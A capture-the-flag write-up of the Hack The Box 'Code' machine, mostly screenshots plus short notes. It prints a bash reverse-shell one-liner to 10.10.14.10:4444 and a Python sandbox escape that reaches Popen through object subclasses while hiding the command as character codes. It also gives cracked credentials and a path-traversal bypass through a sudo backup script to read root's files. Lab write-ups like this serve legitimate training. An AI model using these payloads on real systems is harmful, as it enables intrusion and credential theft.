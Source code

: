 # Code HTB Easy Linux Machine
![code](./images/code.png)
Started: 5/8/25  
Pwned: 5/8/25  

## Nmap Output
![nmap](./images/nmap.png)  

popen was blocked  
![keywordblock](./images/keywordblocked.png)  

RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  

x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
e(['/bin/bash', '-c', cmd], shell=False) 

RevShell/Foothold

Command: nc -lvnp 4444 

![revshell](./images/revshell.png)  

![userflag](./images/userflag.png)  

database.db  
![database](./images/database.png)  

crackstation  
![crackstation](./images/crackstation.png)  

development:development  
martin:nafeelswordsmaster  

sudo -l  
![sudo](./images/sudo.png)  

backy.sh  
![backy](./images/backy.png)  

Getting Root  

![task](./images/task.png)  

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully grab the files  

![exploit](./images/exploit.png)  

![loot](./images/loot.png)  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.
